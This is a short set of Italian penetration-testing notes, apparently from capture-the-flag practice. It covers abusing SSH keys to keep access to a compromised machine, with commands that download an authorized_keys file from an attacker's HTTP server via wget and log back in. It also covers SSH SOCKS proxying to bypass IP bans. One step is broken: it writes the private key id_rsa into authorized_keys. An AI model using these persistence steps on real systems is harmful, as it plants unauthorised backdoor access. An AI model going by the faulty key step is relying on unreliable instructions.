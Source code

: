 ### Cos'è SSH?
TODO

### Abuso delle chiavi SSH:
Quando si ottiene una shell remota su un dispositivo, è possibile rendere permanente la possibilità di accedere, anche in un altro momento, semplicemente utilizzando il protocollo SSH.

Dall'host remoto:

```
host-remoto@host:~/.ssh$ ssh-keygen
```

Dall'host locale:

```
host-locale@host:~/.ssh$ ssh-keygen
host-locale@host:~/.ssh$ cat id_rsa > authorized_keys
```

Trasportiamo in qualche modo (magari tramite protocollo HTTP oppure protocollo TCP) il file authorized_keys dall'host locale all'host remoto all'interno della directory ```.ssh```.

```
host-remoto@host:~/.ssh$ wget http://10.10.14.208:8000/authorized_keys
```

A questo punto dall'host locale dovremmo essere in grado di accedere all'host remoto in questo modo:

```
host-locale@host:~/.ssh$ ssh wizard@10.10.11.106
```


## Comandi fondamentali:

Mettere in ascolto una porta sulla macchina locale in modo tale da trasmettere il traffico generato su quella porta sul canale sicuro SSH affinchè la macchina remota possa rifare la nostra richiesta (ad un web server) per poi ottenere la risposta nuovamente sulla macchina locale. Questo è un esempio di proxy che potrebbe essere utile a bypassare eventuali BAN dell'ip della macchina.

```bash
ssh -D1080 <hostname>@<ip>
```
